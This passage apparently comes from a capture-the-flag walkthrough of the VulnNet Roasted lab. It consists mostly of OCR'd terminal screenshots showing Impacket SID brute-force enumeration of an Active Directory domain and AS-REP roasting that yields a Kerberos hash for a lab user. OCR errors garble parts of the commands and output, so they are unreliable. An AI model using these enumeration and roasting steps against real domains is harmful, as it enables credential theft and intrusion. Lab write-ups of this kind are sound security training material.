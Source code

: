 alt="kaliS kali ) - [—/Down10ads] python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymousä)1ø.1ø.126.157 Impacket vø.1ø.1.dev1+2022ø606.123812.ac35841f - Copyright 2022 SecureAuth Corporation Password : Brute forcing SIDS at 10.10.126.157 StringBinding ncacn_np:1ø.1ø.126.157[\pipe\lsarpc] Domain SID is: S-1-5-21-1589833671-435344116-4136949213 498 513: 525 : : VULNNET- 500: VULNNET 501 : VULNNET 502: VULNNET 512: VULNNET VULNNET- 514: VULNNET 515: VULNNET 516: VULNNET 517: VULNNET 518: VULNNET- 519: VULNNET 520: VULNNET 521 : VULNNET 522: VULNNET VULNNET 526: VULNNET 527: VULNNET RST\Enterprise Read-only Domain Controllers (SidTypeGroup) -RST\Administrator (SidTypeUser) -RST\Guest (SidTypeUser) -RST\krbtgt (SidTypeuser) -RST\Domain Admins (SidTypeGroup) RST\Domain Users (SidTypeGroup) -RST\Domain Guests (SidTypeGroup) -RST\Domain Computers (SidTypeGroup) -RST\Domain controllers (SidTypeGroup) -RST\Cert Publishers (SidTypeAlias) RST\Schema Admins (SidTypeGroup) -RST\Enterprise Admins (SidTypeGroup) -RST\Group policy Creator Owners (SidTypeGroup) -RST\Read-only Domain controllers (SidTypeGroup) -RST\CIoneabIe Domain Controllers (SidTypeGroup) -RST\Protected Users (SidTypeGroup) -RST\Key Admins (SidTypeGroup) -RST\Enterprise Key Admins (SidTypeGroup) " />

user found

<img src="VulnNetRoasted/media/image9.png"
style="width:4.96667in;height:2.81667in"
alt="kali 9 kali [—/Down10ads] cat vunUse.txt krbtgt a-whitehat t-skid j -goldenhand j-leet " />

<img src="VulnNetRoasted/media/image10.png"
style="width:4.90833in;height:0.9in"
alt="kali S kali) -C —/Down10ads) python3 /usr/share/doc/python3-impacket/examples/GetNPUsers .py vulnnet-rst.local/ -usersfile vunUse. txt Impacket vø.1ø.1.dev1+20220606.123812.ac35841f - copyright 2022 secureAuth corporation [-] Kerberos sessionError: KDC ERR credentials have been revoked) [-] User a-whitehat doesn&#39;t have UF_DONT_REQUIRE_PREAUTH set -no-pass 10.10.126.157 $krb5asrep$23$t-skidöVULNNET-RST. LOCAL f12ef637d09c717e88f726d39521db1daøee92de 5adcd6fe73f52b094ød7b174bf2fb715eec640øe80b1e9079bø58cb845cbe9718837632561øa5e73ø2743føaf4848eøaab42øa8f1286a336198b41ae76b96a90d7b517368867dc89c bf07a 7bafc5de8aabd81 7b 1 f69bbdøe8d74f2eca86b2f7cfceeae7f03ac6c523dOaf a5162339bbdc7cd1d870455eff9føc696554b4e8761e4øcf812ebc1235176d443c6øe59eb87b54feeefe978a81a16fa87a9a9d4f14c34539f8844ff59466c7765 [-] User j-goldenhand doesn&#39;t have UF_DONT_REQUIRE_PREAUTH set [-] user j-leet doesn&#39;t have set " />
